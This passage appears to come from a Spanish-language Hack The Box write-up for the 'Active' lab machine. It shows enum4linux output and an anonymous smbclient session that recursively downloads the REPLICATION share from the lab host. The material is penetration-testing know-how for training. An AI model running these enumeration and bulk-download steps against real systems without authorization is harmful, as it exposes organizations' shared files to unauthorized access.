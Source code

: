 ```
 ==============================================
Could not initialise spoolss. Error was NT_STATUS_ACCESS_DENIED


enum4linux complete on Thu Mar 31 23:21:30 2022
```

- Allí identificamos carpetas compartidas. La carpeta REPLICATION puede ser accedida.

<img src="https://github.com/El-Palomo/Active-HTB/blob/main/Active2.jpg" width=80% />


### 3.2. Accediendo a Carpeta Compartida

- Accedemos a la carpeta compartida y descargamos su contenido de manera recursiva

```
┌──(root㉿kali)-[~/HT]
└─# smbclient \\\\10.129.126.89\\Replication
Enter WORKGROUP\root's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jul 21 06:37:44 2018
  ..                                  D        0  Sat Jul 21 06:37:44 2018
  active.htb                          D        0  Sat Jul 21 06:37:44 2018

		5217023 blocks of size 4096. 275073 blocks available
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```
